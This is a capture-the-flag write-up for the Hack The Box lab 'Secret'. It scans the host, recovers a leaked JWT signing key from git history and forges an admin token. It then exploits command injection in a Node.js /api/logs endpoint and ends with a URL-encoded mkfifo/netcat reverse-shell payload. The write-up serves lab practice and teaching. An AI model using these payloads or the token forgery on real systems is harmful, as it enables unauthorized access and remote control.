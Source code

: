 ```yaml
---
title: Secret - easy HTB
date: 2023-12-10 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /secret
tags: [htb, writeup, easy, web, jwt, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


![secret](assets/secret/secret.png)

## **Scanning :**

Enumerate open ports with nmap : `nmap 10.10.11.120 -sC -sV -T4`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

All ports : `nmap 10.10.11.120 -sV -T4 -p-`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
```

## **Enumeration:**

Before walk on the app run gobuster BF : `gobuster dir -u http://10.10.11.120/ -w /usr/share/wordlists/dirb/big.txt`

```bash
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

So we have on web app : 

![webapp](assets/secret/webapp.png)

you can download the source code of the here : 

![Untitled](assets/secret/download-archive.png)

on the file you can find a .git project use `git log` command to enumerate every commit. 

In the first We can leaked the Token secret to sign JWT, this is in the first commit : 

![Untitled](assets/secret/commit.png)

## **Exploit Web app:**

in the source code we can see that it is mentioned a user "theadmin" if we log on we will be able to have access to the private account: 

```java
router.get('/priv', verifytoken, (req, res) => {
   // res.send(req.user)

    const userinfo = { name: req.user }

    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        res.json({
            creds:{
                role:"admin", 
                username:"theadmin",
                desc : "welcome back admin,"
            }
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

For this we must create a new jwt that we will be able to falsify because we have the private key of signature. 

First launch request to get JWT :  

```java
curl -X POST -d '{"name": "tototo", "email": "[toto@toto.com](mailto:toto@toto.com)", "password": "Pass123!"}' -H "Content-Type: application/json" http://secret.htb:3000/api/user/register
```

Log your self on the app and get your first JWT :

```java
curl -X POST -d ' {"email": "[toto@toto.com](mailto:toto@toto.com)","password": "Pass123!"}' -H "Content-Type: application/json" http://secret.htb:3000/api/user/login 
```

Modifie the new JWT to “theadmin” do not forget the signed with the key find rather :

![jwt](assets/secret/jwt-theadmin.png)

Send last request to Gain admin acces :

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMjQxNTg5N2E5NjA0NTk2YzcxYmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzkxNjd9.rh26y3V_J_IDvfaY5CXWFli5qsPMfGsrDPkA2-2iWgE" http://secret.htb:3000/api/priv
```

But the code tells us that there is a function in another API page (/logs). view that we are theadmin we can interact with:

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" http://secret.htb:3000/api/logs
```

the app uses the `exec` function to execute a specific Git command. The Git command executed is git log --oneline followed by the file name extracted from the query (${file}). The result of this Git command is retrieved in the output variable.

```java
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
```

we can try to integrate with the file parameter : 

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" http://secret.htb:3000/api/logs?file=test

#output
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline test"}
```

Let’s try to make a basic command injection in this parameter:

```bash
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" 'http://secret.htb:3000/api/logs?file=|id' 

#output
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```

BiMMGO we have succed inject commande now lets try to gain reverse shell, so run your listener and run request:
```bash
# set up listener
pwncat-cs :1234

# reverse shell
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMjQxNTg5N2E5NjA0NTk2YzcxYmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzkxNjd9.rh26y3V_J_IDvfaY5CXWFli5qsPMfGsrDPkA2-2iWgE" 'http://secret.htb:3000/api/logs?file=|rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.5%201234%20%3E%2Ftmp%2Ff'
```

